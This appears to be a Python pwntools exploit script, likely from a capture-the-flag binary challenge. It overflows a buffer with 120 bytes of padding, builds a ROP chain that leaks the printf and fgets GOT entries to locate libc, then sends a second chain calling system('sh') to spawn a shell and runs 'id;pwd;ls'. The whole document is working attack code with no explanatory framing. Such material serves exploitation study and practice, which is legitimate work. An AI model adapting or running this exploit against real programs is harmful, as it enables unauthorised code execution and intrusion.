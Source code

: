```python

# context.log_level = "debug"
# vp.sendline(cyclic(0x100, n=8))
off = 120
pad = "A" * off

# pl = pad + p64(0xdeadc0de)
# vp.sendline(pl)

# vp.interactive()

win_printer = 0x00401d96
# pop_rdi = 0x00401dc3
sh_string = 0x0040045f

# first rop chain

chain = ROP(velf)
chain.puts(velf.got['printf'])
chain.puts(velf.got['fgets'])
chain.call(win_printer)  # jump back for second rop chain

log.info("using rop chain:\n" + chain.dump())

pl = pad + str(chain)
if "\n" in pl:
    log.error("newline in payload:\n" + hexdump(pl))
vp.sendline(pl)

vp.recvuntil("gg!\n")

# leak printf and fgets

printf_leaked = vp.recvline()[:-1]
printf_leaked += "\x00" * (8 - len(printf_leaked))
log.info("printf leak:\n" + hexdump(printf_leaked))
printf_leaked = u64(printf_leaked)

fgets_leaked = vp.recvline()[:-1]
fgets_leaked += "\x00" * (8 - len(fgets_leaked))
log.info("fgets leak:\n" + hexdump(fgets_leaked))
fgets_leaked = u64(fgets_leaked)

# calculate libc base with leaked address

libc.address = fgets_leaked - libc.symbols['fgets']
# system = libc.symbols['system']

# second rop chain, just jump to system with "sh\x00" as arg

chain2 = ROP([velf, libc])
chain2.system(sh_string)

log.info("second rop chain:\n" + chain2.dump())

pl = pad + str(chain2)
if "\n" in pl:
    log.error("newline in payload:\n" + hexdump(pl))
vp.sendline()
vp.sendline(pl)

vp.sendline("id;pwd;ls")

```